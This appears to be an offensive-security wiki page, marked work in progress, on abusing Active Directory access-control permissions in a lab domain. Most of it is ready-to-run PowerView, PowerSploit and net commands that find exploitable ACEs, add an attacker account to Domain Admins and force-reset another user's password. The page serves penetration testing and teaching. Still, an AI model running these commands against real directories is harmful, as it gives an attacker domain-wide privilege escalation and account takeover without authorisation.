 # Abusing Active Directory ACLs/ACEs

{% hint style="danger" %}
WIP
{% endhint %}

## Context

Some of the exploitable permissions:

* **GenericAll** - full rights to the object \(add users to a group or reset user's password\)
* **GenericWrite** - update object's attributes \(i.e logon script\)
* **WriteOwner** - change object owner to attacker and have full control over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self \(Self-Membership\)** - ability to add yourself to a group

## Execution

### GenericAll on User

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-17-14.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-19-43.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-23-18.png)

### GenericAll on Group

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-50-20.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-52-10.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/peek-2018-11-08-10-07.gif)

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### WriteProperty on Group

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-11-11.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-06-32.png)

### Self \(Self-Membership\) on Group

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-23-52.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-25-23.png)

### **ForceChangePassword**

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-30-11.png)

```csharp
# powerview
Set-DomainUserPassword -Identity delegate -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-31-52.png)

or a one liner:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-58-25.png)

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-14-11-25.png)



## References

{% embed url="https://wald0.com/?p=112" %}

